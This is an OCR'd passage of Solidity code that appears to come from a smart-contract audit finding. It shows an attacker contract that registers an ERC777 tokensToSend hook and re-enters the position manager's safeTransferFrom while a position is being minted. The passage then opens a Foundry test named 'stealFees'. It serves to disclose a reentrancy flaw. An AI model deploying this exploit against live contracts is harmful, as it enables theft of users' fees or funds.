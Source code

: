 >        token0 = _token0;
>        token1 = _token1;
>
>        IERC20Partial(token0).approve(address(sfpm), type(uint256).max);
>        IERC20Partial(token1).approve(address(sfpm), type(uint256).max);
>
>        IERC20Partial(token0).approve(address(router), type(uint256).max);
>        IERC20Partial(token1).approve(address(router), type(uint256).max);
>
>        _registerInterfaceForAddress(
>            TOKENS_SENDER_INTERFACE_HASH,
>            address(this)
>        );
>        
>        IERC1820Registry(_ERC1820_REGISTRY).setInterfaceImplementer(
>            address(this), 
>            TOKENS_SENDER_INTERFACE_HASH,
>            address(this)
>        );
>
>    }
>    
>    function onERC1155Received(address _operator, address _from, uint256 _id, uint256 _value, bytes calldata _data) external returns(bytes4){
>        return bytes4(keccak256("onERC1155Received(address,address,uint256,uint256,bytes)"));
>    }
>        
>    function mintAndTransfer(
>        uint256 _tokenId,
>        uint128 _positionSize,
>        int24 slippageTickLimitLow, 
>        int24 slippageTickLimitHigh
>        ) public
>    {
>        tokenId = _tokenId;
>        positionSize = _positionSize;
>
>        sfpm.mintTokenizedPosition(
>        tokenId,
>        positionSize,
>        slippageTickLimitLow, 
>        slippageTickLimitHigh
>        );
>    }
>
>    function tokensToSend(
>        address operator,
>        address from,
>        address to,
>        uint256 amount,
>        bytes calldata userData,
>        bytes calldata operatorData
>    ) external {
>        sfpm.safeTransferFrom(address(this), owner, tokenId, positionSize, bytes(""));
>
>    }
>
>}
>
>contract stealFees is Test {
>    using TokenId for uint256;
>    using LeftRight for int256;
>    using LeftRight for uint256;
>